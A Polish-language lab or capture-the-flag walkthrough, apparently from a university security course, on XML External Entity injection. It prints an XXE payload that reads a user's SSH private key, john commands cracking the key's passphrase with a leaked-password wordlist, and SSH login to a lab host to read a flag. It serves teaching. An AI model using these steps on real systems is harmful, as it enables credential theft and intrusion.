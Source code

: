 Payload:
```xml
 <!DOCTYPE pjatk [<!ENTITY xxe SYSTEM "/home/sshadmin/.ssh/id_rsa"> ]>
 <PLANT>
 <COMMON>&xxe;</COMMON>
 <BOTANICAL>Sanguinaria canadensis</BOTANICAL>
 <ZONE>4</ZONE>
 <LIGHT>Mostly Shady</LIGHT>
 <AVAILABILITY>031599</AVAILABILITY>
 </PLANT>
```
### Hasło do klucza
Celem zadania jest znalezienie prawidłowego hasła do klucza prywatnego
wsłowniku /usr/share/seclists/Passwords/Leaked-Databases/carders.cc.txt  
Flagą do zadania jest hasło do klucza- hasło należy wysłać formularzem
na platformie.  
Uwaga! Skopiowanie klucza bezpośrednio ze strony może nie zadziałać. Jeśli napotkasz na błąd, skopiuj je ze źródła strony.

```
ssh2john id_rsa > id_rsa.john
john--wordlist=/usr/share/seclists/Passwords/Leaked-Databases/carders.cc.txt id_rsa.john
```

### Połączenie SSH
 Celemzadaniajestpołączeniesięzhostem192.168.100.63

```
chmod 400 id_rsa
ssh-i id_rsa sshadmin@192.168.100.63
```

### Flaga
Celem zadania jest wylistowanie katalogu domowego i odczytanie flagi.
```
ls
cat *
```
___
## Dodatkowe informacje
[Symulacja ataku XXE](https://cdn.sekurak.pl/html5/xxe/)  
[XXE„Cheat-sheet”](https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity)  
[Poszukiwanie podatności XXE](https://portswigger.net/web-security/xxe#how-to-find-and-test-for-xxe-vulnerabilities)  
___
## Sources
- tryhackme, XXE Injection, https://tryhackme.com/r/room/xxeinjection.
- M. McDonald, Bezpieczeństwo Aplikacji Internetowych dla Programistów, 2021 Helion S.A.
- XML External Entities, Polsko-Japońska Akademia Technik Komputerowych, 2024. Prezentacja pdf.
- XML External Entities Pentest, Polsko-Japońska Akademia Technik Komputerowych, 2024. Prezentacja pdf.
